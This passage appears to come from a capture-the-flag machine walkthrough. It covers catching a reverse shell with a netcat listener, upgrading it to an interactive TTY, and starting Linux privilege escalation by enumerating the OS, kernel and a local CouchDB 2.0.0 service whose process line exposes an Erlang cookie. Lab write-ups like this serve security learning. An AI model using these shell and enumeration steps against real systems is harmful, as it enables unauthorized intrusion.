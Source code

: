 This payload will create a reverse shell, so the server will connect back on a listener I'm controlling and offer me a bash shell.

Let's start a listener and set some proper TTY environment once we are connected on the remote shell:

```
$ stty raw -echo
$ nc -lvnp 42424
$ SHELL=/bin/bash script -q /dev/null
```

You'll tell me, what is the black magic around netcat?

This is basically for [Upgrading simple shells to fully interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).
If you are curious you can read the previously linked article and also the following man page `STTY(1)` and `SCRIPT(1)`.

### Privilege Escalation of Machine  - From service to user

The goal of Privilege Escalation of Machine  a.k.a. Privilege Escalation (priv esc or PE), is to go from a low privilege access tp a high privilege one.
So here on a linux system we will try to get root.

But before attacking a vulnerable service, I must find it!

A good idea if not using an automated tool, is to stick to an enumeration guide like this one: [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/).

The first thing we need to know is, on which operating system (OS) are we and with which kernel:

```
$ cat /etc/os-release
NAME="Ubuntu"
VERSION="16.04.4 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.4 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial

$ uname -r
4.4.0-119-generic
```

We are lucky, we won't need to do much enumeration.
Remember?
In the web application source code, we saw there was a CouchDB server.
Let's see what the service has to answer:

```
$ curl http://localhost:5984/
{"couchdb":"Welcome","version":"2.0.0","vendor":{"name":"The Apache Software Foundation"}}

root        649    642  0 11:38 ?        Ss     0:00  \_ runsv couchdb
root        650    649  0 11:38 ?        S      0:00      \_ svlogd -tt /var/log/couchdb
:
homer       663    649  0 11:38 ?        Sl     1:57      \_ /home/homer/bin/../erts-7.3/bin/beam -K true -A 16 -Bd -- -root /home/homer/bin/.. -progname couchdb -- -home /home/homer -- -boot /home/homer/bin/../releases/2.0.0/couchdb -name couchdb@localhost -setcookie monster -kernel error_logger silent -sasl sasl_error_logger false -noshell -noinput -config /home/homer/bin/../releases/2.0.0/sys.config
```
